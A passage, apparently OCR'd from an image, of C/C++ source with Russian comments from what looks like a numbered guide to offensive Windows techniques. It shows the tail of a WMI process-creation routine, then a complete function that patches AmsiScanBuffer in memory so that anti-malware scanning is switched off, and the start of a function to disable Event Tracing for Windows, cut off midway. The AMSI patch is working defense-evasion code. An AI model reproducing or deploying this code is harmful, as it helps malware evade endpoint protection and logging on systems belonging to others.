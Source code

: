     // Создаем процесс через WMI
    IWbemClassObject* pClass = NULL;
    pSvc->GetObject(L"Win32_Process", 0, NULL, &pClass, NULL);
    
    // Вызываем метод Create для запуска процесса
    // ...
    
    // Освобождаем ресурсы
    pClass->Release();
    pSvc->Release();
    pLoc->Release();
    CoUninitialize();
    
    return TRUE;
}

7. AMSI & ETW Patching — Обход защиты

// Патчинг AMSI (Anti-Malware Scan Interface) для обхода сканирования
BOOL PatchAMSI() {
    // Загружаем библиотеку AMSI
    HMODULE hAmsi = LoadLibraryA("amsi.dll");
    if (!hAmsi) return FALSE;
    
    // Находим адрес функции AmsiScanBuffer
    FARPROC pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
    if (!pAmsiScanBuffer) {
        FreeLibrary(hAmsi);
        return FALSE;
    }
    
    // Подготавливаем патч (xor eax, eax; ret)
    BYTE patch[] = { 0x31, 0xC0, 0xC3 };
    
    // Меняем защиту памяти для записи
    DWORD oldProtect;
    if (!VirtualProtect(pAmsiScanBuffer, sizeof(patch), 
                      PAGE_EXECUTE_READWRITE, &oldProtect)) {
        FreeLibrary(hAmsi);
        return FALSE;
    }
    
    // Применяем патч
    memcpy(pAmsiScanBuffer, patch, sizeof(patch));
    
    // Восстанавливаем защиту памяти
    VirtualProtect(pAmsiScanBuffer, sizeof(patch), oldProtect, &oldProtect);
    
    FreeLibrary(hAmsi);
    return TRUE;
}

// Отключение ETW (Event Tracing for Windows)
BOOL DisableETW() {
    // Находим адрес функции EtwEventWrite в ntdll.dll
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) return FALSE;
    
